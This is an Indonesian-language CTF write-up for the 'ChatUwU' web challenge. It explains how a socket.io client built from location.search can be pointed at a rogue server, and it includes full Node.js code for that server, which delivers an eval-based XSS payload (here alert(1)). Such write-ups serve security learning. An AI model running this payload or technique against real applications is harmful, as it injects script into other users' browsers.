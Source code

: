 # web
---
## ChatUwU
Kita diberikan attachment yang berupa aplikasi yang menggunakan nodejs dengan dependency express dan juga socket io.

Langsung masuk ke intinya.
Vulnerability pada web app tersebut berada di client side pada kode berikut
`index.html`
```js
        document.title += ' - ' + room;
        let socket = io(`/${location.search}`), # <- vulnerable code
            messages = document.getElementById('messages'),
            form = document.getElementById('form'),
            input = document.getElementById('input');
```

socket io mengambil parameter location.search sebagai inputnya. Kita bisa memanipulasi location.search dengan menambahkan foo@attacker.com di salah satu parameter url misalnya
http://localhost:58000/?nickname=x@localhost:8000/?nickname=x&room=DOMPurify

Dengan cara ini kita dapat mengubah poin akses socket io ke web socket yang kita buat sendiri sehingga kita dapat mengirimkan malcious data yang berisi payload untuk mendapatkan xss di client. 

Berikut code yang saya gunakan untuk membuat attacker server:

```js
const http = require("http").Server();
const { Server } = require("socket.io");

const io = new Server(http, {
  cors: {
    origin: "http://localhost:58000",
  },
});

const hostname = "0.0.0.0";
const port = 8000;

let payload = btoa(`
// xss payload here
alert(1)
`)
payload = `
<img src='x' onerror=eval(atob("${payload}"))>
`;

io.on("connection", (socket) => {
  let { room } = socket.handshake.query;
  console.log(socket.handshake.query);

  socket.join(room);
  io.to(room).emit("msg", {
    from: "attacker",
    text: payload,
    isHtml: true,
  });
});

http.listen(port, hostname, () => {
  console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```

![](Pasted%20image%2020230109172555.png)